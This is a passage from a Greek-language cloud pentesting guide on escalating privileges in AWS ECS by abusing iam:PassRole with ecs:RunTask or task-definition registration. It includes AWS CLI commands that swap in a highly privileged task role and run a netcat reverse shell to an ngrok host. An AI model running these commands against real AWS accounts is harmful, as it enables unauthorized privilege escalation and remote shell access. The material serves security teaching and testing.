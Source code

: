 ```bash
--family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 \
--memory 512 \
--requires-compatibilities FARGATE \
--container-definitions file://container-definition.json

# Check the webhook for a response

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1

```
{{#endtab }}

{{#endtabs }}

**Πιθανός Αντίκτυπος:** Άμεση privesc σε διαφορετικό ECS role.

### `iam:PassRole`,`ecs:RunTask`
Ένας επιτιθέμενος που έχει `iam:PassRole` και `ecs:RunTask` δικαιώματα μπορεί να ξεκινήσει ένα νέο ECS task με τροποποιημένο **ρόλο εκτέλεσης**, **ρόλο εργασίας** και τις **command** τιμές του container. Η εντολή CLI `ecs run-task` περιέχει την επιλογή `--overrides` που επιτρέπει την αλλαγή κατά την εκτέλεση των `executionRoleArn`, `taskRoleArn` και της `command` του container χωρίς να τροποποιηθεί το task definition.

Οι συγκεκριμένοι IAM ρόλοι για `taskRoleArn` και `executionRoleArn` πρέπει να εμπιστεύονται/επιτρέπουν να αναληφθούν από το `ecs-tasks.amazonaws.com` στην trust policy τους.

Επιπλέον, ο επιτιθέμενος χρειάζεται να γνωρίζει:
- ECS cluster name
- VPC Subnet
- Security group (Αν δεν καθοριστεί security group θα χρησιμοποιηθεί το προεπιλεγμένο)
- Task Definition Name and revision
- Name of the Container
```bash
aws ecs run-task \
--cluster <cluster-name> \
--launch-type FARGATE \
--network-configuration "awsvpcConfiguration={subnets=[<subnet-id>],securityGroups=[<security-group-id>],assignPublicIp=ENABLED}" \
--task-definition <task-definition:revision> \
--overrides '
{
"taskRoleArn": "arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
"containerOverrides": [
{
"name": <container-name>,
"command": ["nc", "4.tcp.eu.ngrok.io", "18798", "-e", "/bin/bash"]
}
]
}'
```
Στο απόσπασμα κώδικα πιο πάνω, ο attacker αντικαθιστά μόνο την τιμή του `taskRoleArn`. Ωστόσο, ο attacker πρέπει να έχει την άδεια `iam:PassRole` πάνω στο `taskRoleArn` που καθορίζεται στην εντολή και στο `executionRoleArn` που ορίζεται στον ορισμό του task για να πραγματοποιηθεί η επίθεση.
